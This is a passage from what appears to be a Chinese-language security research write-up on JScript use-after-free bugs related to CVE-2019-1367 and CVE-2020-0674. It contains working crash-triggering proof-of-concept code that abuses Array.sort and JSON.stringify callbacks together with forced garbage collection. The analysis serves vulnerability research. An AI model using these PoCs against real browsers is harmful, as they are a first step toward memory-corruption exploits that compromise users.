 ```
        total.push(arg1);
        total.push(arg2);
        return 0;
    }
    depth += 1;
    sort[depth].sort(uaf);
    return 0;
}
 
sort[depth].sort(uaf);
 
for(i = 0; i < total.length; i++) {
    typeof total[i]; // <- 触发crash
}

```

这个漏洞和 CVE-2019-1367 又非常像，又一个由 Array.sort 函数导致的 UAF 漏洞，所不同的是这次的问题不是出在 arguments 属性，而是出在传入的参数中。Jscript 代码没有将 sort 函数中的调用参数加入 GC 追踪列表，导致在回调函数中可以强制触发垃圾回收机制，得到悬垂指针，后面再次访问该指针时即发生 UAF。

### [](#一个“新漏洞“)一个 “新漏洞 “

相信许多读者和笔者一样，看上面几个案例后，会下意识地找一下通过 Json 序列化操作触发 CVE-2020-0674 的路径，并构造出第 5 个 PoC：

```
var depth = 0;
var spray_size = 10000;
var spray = new Array();
var arr = new Array();
var total = new Array();
 
for(i = 0; i < 110; i++) arr[i] = [0, 0];
for(i = 0; i < spray_size; i++) spray[i] = new Object();
 
function uaf(arg1, arg2) {
    // arg1, arg2等传入的参数未被GC追踪
    arg1 = spray[depth * 2];
    arg2 = spray[depth * 2 + 1];
    if(depth > 50) {
        spray = new Array();
        CollectGarbage();
        total.push(arg1);
        total.push(arg2);
        return 0;
    }
    depth += 1;
    JSON.stringify(arr[depth], uaf);
    return 0;
}
 
JSON.stringify(arr[depth], uaf);
 
for(i = 0; i < total.length; i++) {
    typeof total[i]; // <- 触发crash
}

```
